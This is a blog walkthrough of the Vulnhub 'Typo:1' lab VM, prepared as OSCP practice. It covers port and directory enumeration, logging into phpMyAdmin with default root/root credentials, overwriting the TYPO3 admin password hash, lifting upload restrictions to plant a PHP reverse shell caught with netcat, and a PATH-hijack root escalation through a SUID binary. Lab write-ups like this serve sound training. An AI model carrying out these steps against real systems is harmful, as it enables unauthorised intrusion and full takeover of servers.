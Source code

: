 ```yaml
---
date: 2020-06-21 00:00:42
layout: post
title: "Typo Vulnhub Walkthrough"
subtitle:
description: Typo:1 is another boot2root VM from Vulnhub. This machine is considered good for OSCP.
image: /assets/img/uploads/typo/typo.png
optimized_image: /assets/img/uploads/typo/typo-optimized.png
category: walkthrough
tags: vulnhub boot2root
author: madhavmehndiratta
paginate: false
keywords: typo1, typo vulnhub, typo vulnhub walkthrough, typo walkthrough, typo 1 vulnhub, infosec articles, typo vulnhub writeup
---
```


Typo:1 is another boot2root VM from Vulnhub. This machine is considered good for OSCP Preparation. I have added the machine to my hosts file, so Let's Begin!

```r
root@kali:~# cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
192.168.1.208   typo.local
```

## Initial Enumeration and Shell

I started the reconnaissance by running a port scan with Nmap, checking default scripts and testing for vulnerabilities.

```r
root@kali:~# nmap -sC -sV -oA nmap/typo typo.local
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-20 13:06 IST
Nmap scan report for typo.local (192.168.1.208)
Host is up (0.00051s latency).
Not shown: 995 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 cd:dc:8f:24:51:73:54:bc:87:62:a2:e6:ed:f1:c1:b4 (RSA)
|   256 a9:39:a9:bf:b2:f7:01:22:65:07:be:15:48:e8:ef:11 (ECDSA)
|_  256 77:f5:a9:ff:a6:44:7c:9c:34:41:f1:ec:73:5e:57:bd (ED25519)
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-generator: TYPO3 CMS
|_http-server-header: Apache/2.4.38 (Debian)
| http-title: Armour: Infosec
|_Requested resource was http://typo.local/en/
8000/tcp open  http    Apache httpd 2.4.38
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Did not follow redirect to http://typo.local
8080/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesnt have a title (text/html).
8081/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesnt have a title (text/html).
MAC Address: 08:00:27:BD:46:E3 (Oracle VirtualBox virtual NIC)
Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.71 seconds
```

We have Apache Web Servers running on four different ports. Next step was to run a Gobuster scan to look for hidden directories.
```r
root@kali:~# gobuster dir -u http://typo.local -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o port80.log  

===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://typo.local
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
Starting gobuster
===============================================================
/en (Status: 200)
/license (Status: 403)
/README (Status: 403)
/changelog (Status: 403)
/ChangeLog (Status: 403)
/vendor (Status: 403)
/fileadmin (Status: 301)
/readme (Status: 403)
/todo (Status: 403)
/typo3temp (Status: 301)
/TODO (Status: 403)
/typo3 (Status: 301)
/vendorsolutions (Status: 403)
===============================================================
Finished
===============================================================
```

I found <b>typo3</b> and <b>typo3temp</b> directories which suggests that this webserver is using <b>typo3 cms.</b> Then I performed the same scan on other ports and found a <b>phpmyadmin</b> directory on port 8081.
```r
root@kali:~# gobuster dir -u http://typo.local:8081 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o port8081.log
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://typo.local:8081
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/06/20 13:09:19 Starting gobuster
===============================================================
/phpmyadmin (Status: 301)
/server-status (Status: 403)
===============================================================
2020/06/20 13:12:05 Finished
===============================================================
```

<p align="justify"> First I went to the typo3 directory on port 80 and tried logging in with some default username and password but I wasn't successful. Then I went to the phpmyadmin directory on port 8081 and again tried some random username and passwords. This time I was able to login with username <b>root</b> and password <b>root.</b> </p>

<img src="/assets/img/uploads/typo/phpmyadmin.png">

Inside the phpmyadmin, I found a database named <b>TYPO3</b> inside which there was a table named <b>be_users</b> which contained two records.

<img src="/assets/img/uploads/typo/be-users.png">

These contain a password which is hashed using <b>argon2id</b> algorithm. I found a website named <a href="https://argon2.online/"> argon2.online </a> which can be used to generate such hashes. I went to this website and created my own hash.

<img src="/assets/img/uploads/typo/argon2-hash.png">

I replaced this hash with the admin's password in the be_users table. Now, I was able to login into the typo3-cms on port80 using username <b>admin</b> and password <b>madhav.</b>

<img src="/assets/img/uploads/typo/typo3-cms.png">

<p align="justify">
Then I went to the <b>Filelist Panel</b> to see if I can upload a php backdoor. Unfortunately, php uploads were disabled on this website. After some enumeration, I found an option named <b>fileDenyUpload</b> in <b>Settings > Configure Installation-Wide Options</b> which restricts certain extensions from being uploaded on the website. I cleared this option and saved the settings. </p>

<img src="/assets/img/uploads/typo/file-extensions.png">

This time, I was able to upload the backdoor. I used the php-reverse-shell from <a href="https://github.com/pentestmonkey/php-reverse-shell">pentest monkey.</a>

<img src="/assets/img/uploads/typo/shell-upload.png">

Then I started a netcat listener, and sent a request to the backdoor I uploaded using <b>curl</b> on another terminal and got a reverse shell from the target machine.

```r
root@kali:~# curl -v http://typo.local/fileadmin/shell.php
*   Trying 192.168.1.208:80...
* TCP_NODELAY set
* Connected to typo.local (192.168.1.208) port 80 (#0)
> GET /fileadmin/shell.php HTTP/1.1
> Host: typo.local
> User-Agent: curl/7.68.0
> Accept: */*
>
```

```r
root@kali:~# nc -lvnp 9001
listening on [any] 9001 ...
connect to [192.168.1.11] from (UNKNOWN) [192.168.1.208] 48354
Linux typo 4.19.0-8-amd64 #1 SMP Debian 4.19.98-1 (2020-01-26) x86_64 GNU/Linux
 13:28:24 up 23 min,  0 users,  load average: 11.49, 11.52, 8.82
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: cant access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@typo:/$
```

## Privilege Escalation

Rooting this box was trivial. I searched for SUID files and found an unusual binary named <b>apache2-restart.</b>

```r
www-data@typo:/tmp$ find / -type f -perm -u=s 2>/dev/null
find / -type f -perm -u=s 2>/dev/null
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/umount
/usr/bin/passwd
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/local/bin/apache2-restart
/usr/local/bin/phpunit
```
As the name suggests, This binary <b>restarts the apache2 service.</b> I confirmed this by running <b>strings</b> command on the service.

<img src="/assets/img/uploads/typo/strings.png">

This is one of the most common privilege escalation method. All we need to do is create our own version of the service in the /tmp directory and add that path to the PATH variable. Then we can call apache2-restart, which will execute our malicious service with root privileges.

```r
www-data@typo:/tmp$ echo '/bin/bash' > service 
echo '/bin/bash' > service 
www-data@typo:/tmp$ chmod +x service
chmod +x service
www-data@typo:/tmp$ export PATH=/tmp/:$PATH
export PATH=/tmp/:$PATH
www-data@typo:/tmp$ apache2-restart
apache2-restart
root@typo:/tmp# id
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```
Hurray! This worked as expected and now we can read our root flag.

```r
root@typo:/tmp# cat /root/proof.txt
cat /root/proof.txt
Best of Luck
$2y$12$EUztpmoFH8LjEzUBVyNKw.9AKf37uZWPxJp.A3aap2ff0LbLYZrF
```
<p align="justify"> That’s it! Thanks for reading. Stay tuned for similar walkthroughs and much more coming up in the near future! If you have any queries, you can contact me <a href="/contact">here.</a> </p>

NOTE: The awesome artwork used in this article was created by <a href="https://dribbble.com/freebird">Alexandr Ivanov.</a>